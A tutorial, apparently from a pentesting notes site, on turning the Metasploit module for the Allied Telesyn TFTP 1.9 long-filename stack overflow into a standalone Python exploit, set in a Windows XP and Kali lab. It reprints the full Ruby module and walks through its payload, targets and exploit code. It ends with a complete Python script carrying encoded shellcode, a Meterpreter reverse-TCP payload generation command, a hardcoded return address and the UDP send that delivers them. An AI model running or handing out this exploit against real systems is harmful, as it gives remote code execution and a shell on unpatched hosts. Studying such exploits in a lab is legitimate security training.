




# Converting Metasploit Module to Stand Alone

Sometimes you might want to have a stand alone exploit, but the only option out there is a Metasploit module. Sure you could always just fire up Metasploit and use it.

**Requirements:**  
Windows XP – SP3 Virtual Machine \(Victim\).  
Kali Linux Virtual Machine \(Attacker\).  
Allied Telesyn TFTP Server 1.9 \(Available [here](http://netsec.ws/wp-content/downloads/at-tftpd19.exe)\).  
****

First open up an existing Metasploit module that is similar to what we’re trying to accomplish. This being a exploit for the Windows operating system, poke around the MSF installation folder under **/usr/share/metasploit-framework/modules/exploits/windows/tftp/attftp\_long\_filename.rb** and you’ll have plenty. We’ll use this as our template. Here’s what our template file would look like:  
****

```ruby
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = AverageRanking

  include Msf::Exploit::Remote::Udp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Allied Telesyn TFTP Server 1.9 Long Filename Overflow',
      'Description'    => %q{
          This module exploits a stack buffer overflow in AT-TFTP v1.9, by sending a
        request (get/write) for an overly long file name.
      },
      'Author'         => [ 'aushack' ],
      'References'     =>
        [
          ['CVE', '2006-6184'],
          ['OSVDB', '11350'],
          ['BID', '21320'],
          ['EDB', '2887']
        ],
      'DefaultOptions' =>
        {
          'EXITFUNC' => 'process',
        },
      'Payload'        =>
        {
          'Space'    => 210,
          'BadChars' => "\x00",
          'StackAdjustment' => -3500,
        },
      'Platform'       => 'win',
      'Targets'        =>
        [
        # Patrick - Tested OK w2k sp0, sp4, xp sp 0, xp sp2 - en 2007/08/24
          [ 'Windows NT SP4 English',   { 'Ret' => 0x702ea6f7 } ],
          [ 'Windows 2000 SP0 English', { 'Ret' => 0x750362c3 } ],
          [ 'Windows 2000 SP1 English', { 'Ret' => 0x75031d85 } ],
          [ 'Windows 2000 SP2 English', { 'Ret' => 0x7503431b } ],
          [ 'Windows 2000 SP3 English', { 'Ret' => 0x74fe1c5a } ],
          [ 'Windows 2000 SP4 English', { 'Ret' => 0x75031dce } ],
          [ 'Windows XP SP0/1 English', { 'Ret' => 0x71ab7bfb } ],
          [ 'Windows XP SP2 English',   { 'Ret' => 0x71ab9372 } ],
          [ 'Windows XP SP3 English',   { 'Ret' => 0x7e429353 } ], # ret by c0re
          [ 'Windows Server 2003',      { 'Ret' => 0x7c86fed3 } ], # ret donated by securityxxxpert
          [ 'Windows Server 2003 SP2',  { 'Ret' => 0x7c86a01b } ], # ret donated by Polar Bear
        ],
      'Privileged'     => false,
      'DisclosureDate' => 'Nov 27 2006'))

    register_options(
      [
        Opt::RPORT(69),
        Opt::LHOST() # Required for stack offset
      ])
  end

  def exploit
    connect_udp

    sploit = "\x00\x02" + make_nops(25 - datastore['LHOST'].length)
    sploit << payload.encoded
    sploit << [target['Ret']].pack('V') 	# <-- eip = jmp esp. we control it.
    sploit << "\x83\xc4\x28\xc3" 		# <-- esp = add esp 0x28 + retn
    sploit << "\x00" + "netascii" + "\x00"

    udp_sock.put(sploit)

    disconnect_udp
  end
end

```

 We’ll concentrate on just a few sections for easyness’ sake. The **"Payload**", “**Targets**” and “**def exploit**” sections are what we’ll be playing around with the most at this point in time.

_Payload_

```ruby
 'Payload'        =>
        {
          'Space'    => 210,
          'BadChars' => "\x00",
          'StackAdjustment' => -3500,
        }
```

* The payload is one of the key aspects we need to examine. This states that we have 210 bytes of space for our payload to reside in. Any larger and we may possibly run into issues of corruption or truncation of our exploit.
* Bad characters signify bytes that may impact our exploit. We need to ensure none of these characters are in our shellcode, and in this case it’s the almost universally bad null character ‘0x00’
* Finally we see something called stack adjustment. Essentially because we’re so restricted in space we need to utilize something called a staged payload. What we’re doing is only sending a small first instruction which is designed to connect back to us and get the main payload, which wouldn’t regularly fit. Because of this we need to adjust the stack pointer back 3500 bytes so it has room to actually write the payload without overwriting itself.

_Targets_

```ruby
'Targets'        =>
        [
        # Patrick - Tested OK w2k sp0, sp4, xp sp 0, xp sp2 - en 2007/08/24
          [ 'Windows NT SP4 English',   { 'Ret' => 0x702ea6f7 } ],
          [ 'Windows 2000 SP0 English', { 'Ret' => 0x750362c3 } ],
          [ 'Windows 2000 SP1 English', { 'Ret' => 0x75031d85 } ],
          [ 'Windows 2000 SP2 English', { 'Ret' => 0x7503431b } ],
          [ 'Windows 2000 SP3 English', { 'Ret' => 0x74fe1c5a } ],
          [ 'Windows 2000 SP4 English', { 'Ret' => 0x75031dce } ],
          [ 'Windows XP SP0/1 English', { 'Ret' => 0x71ab7bfb } ],
          [ 'Windows XP SP2 English',   { 'Ret' => 0x71ab9372 } ],
          [ 'Windows XP SP3 English',   { 'Ret' => 0x7e429353 } ], # ret by c0re
          [ 'Windows Server 2003',      { 'Ret' => 0x7c86fed3 } ], # ret donated by securityxxxpert
          [ 'Windows Server 2003 SP2',  { 'Ret' => 0x7c86a01b } ], # ret donated by Polar Bear
        ],
```

* Metasploit has a wide variety of targets for many exploits, which really is mostly a wide variety of suitable return addresses for each operating system. Because they are often using system dll’s these addresses are not changed from computer to computer and ensures exploit compatibility. In our case we wish to use the return address donated by c0re, Windows XP SP3.

_The Exploit_

```ruby
def exploit
    connect_udp

    sploit = "\x00\x02" + make_nops(25 - datastore['LHOST'].length)
    sploit << payload.encoded
    sploit << [target['Ret']].pack('V') 	# <-- eip = jmp esp. we control it.
    sploit << "\x83\xc4\x28\xc3" 		# <-- esp = add esp 0x28 + retn
    sploit << "\x00" + "netascii" + "\x00"

    udp_sock.put(sploit)

    disconnect_udp
```

Let's go line by line

**`connect_udp`** signifies that the exploit will be sent over UDP packets. This line connects sets the target as the values in Metasploit such as RHOST and RPORT.

**`sploit = "\x00\x02" + make_nops(25 - datastore['LHOST'].length)`** : exploit is started with two hex values, ‘0x00’ and ‘0x02’ followed by a series of NOPs. The nops component is going to be variable in length depending on the length of your LAN IP, but always totaling 25 in total. As an example the LHOST value of ‘192.168.1.2’ has a length of 11, while an IP address of ‘192.168.100.123’ has a length of 15

**`sploit << payload.encoded`** This line encodes the payload specified within Metasploit and encodes it in the required format. Metasploit will internally determine what payloads are suitable given the space available and the target operating system, and they can be viewed with the ‘show payloads’ command. When we say ‘required format’ it means that it will exclude the nominated bad characters earlier in the exploit.

**`sploit << [target['Ret']].pack('V'):`** This command will append the target return address into the exploit string. It’s presented as a variable here because within Metasploit you can nominate different operating systems, but for our purposes it will just be the Windows XP SP3 return address. The pack ‘V’ command signifies that it needs to be packed in little endian format, necessary for x86 processors.

**`sploit << "\x83\xc4\x28\xc3"`** Translated into commands, this is instructing the esp register to add 40 bytes and return. Necessary to position esp correctly for our exploit.

**`sploit << "\x00" + "netascii" + "\x00"`** The final string of our exploit, this terminates the data stream in a format AT-TFTP is expecting.

**`udp_sock.put(sploit)`** This instructs Metasploit to send the exploit via UDP.

**`disconnect_udp:`** Self explainitory but this signifies it has finished with the UDP socket.

**Let’s summarize what we need to achieve in our own exploit for it to get working based on the above highlighted areas.**

* Create an appropriately sized NOP sled based off the size of LHOST
* Nominate the return address and pack it in little endian format
* Generate shellcode suitable for our situation \(LHOST, etc\)
* Perform stack adjustment on the shellcode so our second stage can write correctly
* Send the exploit over UDP with Python

```python
# AT-TFTP v1.9 Exploit
# Written for NetSec.ws
 
import sys, socket
 
# Use in the form "python attftp_long_filename.py <Target IP Address> <Port> <Your IP Address>"
 
host = sys.argv[1]		# Recieve IP from user
lhost = sys.argv[3]
port = int(sys.argv[2])		# Recieve Port from user
 
ret = "\x53\x93\x42\x7e" 	# Return address - Source Metasploit (Little Endian)
nop = "\x90" * (25-len(lhost))	# Create a NOP string as to bring NOPs + LHOST up to 25 bytes
 
#msfpayload windows/meterpreter/reverse_nonx_tcp LHOST=192.168.1.2 LPORT=443 EXITFUNC=process R > payload
#cat shellcode | msfencode -b '\x00' -e x86/shaikata_ga_nai -t python
#[*] x86/shikata_ga_nai succeeded with size 210 (iteration=1)
 
buf =  ""
buf += "\xbb\xd2\x8c\x3a\x78\xdb\xd2\xd9\x74\x24\xf4\x58\x31"
buf += "\xc9\xb1\x2e\x31\x58\x15\x03\x58\x15\x83\xc0\x04\xe2"
buf += "\x27\x0d\xd6\xd4\xca\x0e\x27\xd9\xbe\xe5\x60\xc9\xc7"
buf += "\x05\x91\xf6\x57\xcb\xb5\x82\xea\x17\xc1\xe9\x29\x10"
buf += "\xd4\xfe\xda\xb7\xf6\x01\x36\xbc\xc3\x9b\xc7\x2d\x1a"
buf += "\x5c\x5e\x1d\x9c\x96\x6d\x5f\xdd\xa3\xad\x2a\x17\xe8"
buf += "\x4b\xec\x1d\x9a\x70\x45\x29\x2a\x52\x5b\xc4\xd3\x11"
buf += "\x47\x4f\x97\x6a\x64\x6e\x4e\x77\xb8\xe9\x19\x1b\xe4"
buf += "\x15\x7b\x1c\x04\x14\xa0\x86\x4e\x14\x66\xcd\x11\x97"
buf += "\x0d\xa1\x8d\x0a\x9a\x29\xa6\x0a\xfb\xfa\xd0\xda\x30"
buf += "\xce\x74\x6c\x44\x1c\xda\xc6\xcc\xd9\x96\x86\xef\xcf"
buf += "\xc2\x14\x43\xbc\xbf\xd9\x30\x01\x13\x57\x51\xe3\x12"
buf += "\x88\x96\xe9\x43\x04\xc1\x54\x8c\x75\xf2\x70\x35\x33"
buf += "\xa5\x13\x45\x95\x21\x83\x79\xb2\x4f\x51\x1c\xab\x4e"
buf += "\xee\x86\x78\xd8\xf3\x2d\x6f\x89\xa4\xd7\x36\x7a\x4f"
buf += "\xe7\x9f\xd5\xfb\x1b\x70\x85\x54\x77\x16\x90\x9a\x4f"
buf += "\x29\x04"
 
exploit = "\x00\x02" + nop + buf + ret + "\x83\xc4\x28\xc3\x00netascii\x00" 	# Our exploit
 
client = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)	# Declare a UDP socket
client.sendto(exploit, (host, port))				# Send the exploit over UDP to the nominated addresses
```

**RUN THE EXPLOIT** 

* Start the tftpd in windows XP



* Create your python script



* Run python script **`python exploit.py <target_IP> <port> <your_IP>`**


* Observe the TFTP in your windows XP.





\*\*\*\*

